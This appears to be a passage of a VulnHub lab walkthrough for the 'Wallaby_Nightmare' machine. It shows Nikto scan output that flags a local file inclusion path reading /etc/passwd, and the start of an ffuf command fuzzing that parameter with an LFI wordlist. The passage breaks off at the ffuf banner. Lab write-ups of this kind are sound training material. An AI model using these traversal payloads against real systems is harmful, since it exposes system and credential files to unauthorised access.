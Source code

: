 ### Nikto
```
┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
└─# nikto -ask=no -h http://192.168.110.39:60080 2>&1 | tee "/root/vulnHub/Wallaby_Nightmare/192.168.110.39/scans/tcp60080/tcp_60080_http_nikto.txt"
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.110.39
+ Target Hostname:    192.168.110.39
+ Target Port:        60080
+ Start Time:         2022-03-12 16:08:13 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php)
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7917 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-03-12 16:09:12 (GMT8) (59 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- LFI Vulnerability Found:
	- `/index.php?page=../../../../../../../../../../etc/passwd`



# Initial Foothold

## TCP/60080 (HTTP) - Enumerate URL parameter against LFI wordlist 
1. Check if LFI Vulnerability really exists
	![](Pasted%20image%2020220312162615.png)
	- A rabbit hole?
2. Enumerate URL parameter against a LFI wordlist
	``` 
	┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
	└─# ffuf -u http://$ip:60080/index.php?page=../../../../..FUZZ -w /usr/share/wordlists/LFI/file_inclusion_linux.txt -fs 900

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       
